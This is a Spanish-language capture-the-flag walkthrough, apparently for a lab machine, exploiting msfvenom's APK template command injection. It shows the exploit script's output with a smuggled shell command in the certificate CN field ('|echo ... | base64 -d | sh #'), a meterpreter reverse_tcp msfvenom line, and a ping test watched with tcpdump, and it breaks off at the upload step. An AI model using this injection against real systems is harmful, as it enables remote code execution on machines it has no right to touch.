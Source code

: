 Hagamos una prueba, vamos por pasos:

* Vamos a cambiar el script, pidiendo que nos mande una **traza ICMP**, para saber si podemos usar otros comandos:
```python
payload = 'ping -c 4 Tu_IP'
```

* Genera la **APK**:
```bash
python Msfvenom_Exploit.py                           
[+] Manufacturing evil apkfile
Payload: ping -c 4 Tu_IP
-dname: CN='|echo Q2hlIGNoaXNtb3NvLCBxdWUgaGFjZXMgcmV2aXNhbmRvIGVzdG8gd2UK | base64 -d | sh #
  adding: empty (stored 0%)
Generando par de claves RSA de 2,048 bits para certificado autofirmado (SHA256withRSA) con una validez de 90 días
        para: CN="'|echo Q2hlIGNoaXNtb3NvLCBxdWUgaGFjZXMgcmV2aXNhbmRvIGVzdG8gd2UK | base64 -d | sh #"
jar signed.
Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.
[+] Done! apkfile is at /tmp/tmpjjynuoof/evil.apk
Do: msfvenom -x /tmp/tmpjjynuoof/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

* Para poder subir el archivo, démosle permisos a nuestro usuario principal para cargar el **APK** desde el directorio que nos indica a la página web:
```bash
chown tu_usuario:tu_usuario -R /tmp/tmpjjynuoof
```

* O simplemente usa mv para mover la **APK maliciosa** a tu directorio de trabajo:
```bash
mv /tmp/tmpjjynuoof/evil.apk .
```
Cualquiera de las dos es valida.

* Antes de cargar la **APK**, inicia la herramienta **tcpdump** para que capture la **traza ICMP** en caso de que funcione:
```bash
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

* Carga la **APK** a la página web:

<p align="center">